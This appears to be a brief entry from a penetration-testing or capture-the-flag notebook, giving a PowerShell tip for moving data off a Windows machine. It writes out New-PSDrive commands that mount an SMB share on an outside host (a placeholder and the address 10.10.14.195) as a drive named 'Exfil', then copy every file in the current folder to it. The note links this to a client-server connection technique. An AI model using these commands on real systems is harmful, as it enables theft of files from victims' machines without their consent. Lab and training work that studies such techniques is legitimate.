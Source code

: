 Tips:
```Powershell
PS C:\> New-PSDrive -Name "SHARE_NAME" -PsProvider "Filesystem" -Root "\\YOUR_IP\YOUR_SHARE_NAME"
PS C:\> New-PSDrive -Name "Exfil" -PsProvider "Filesystem" -Root "\\10.10.14.195\share"
PS C:\> copy * Exfil:\
```
Could be used in tandem with [[Client-Server Connection]] 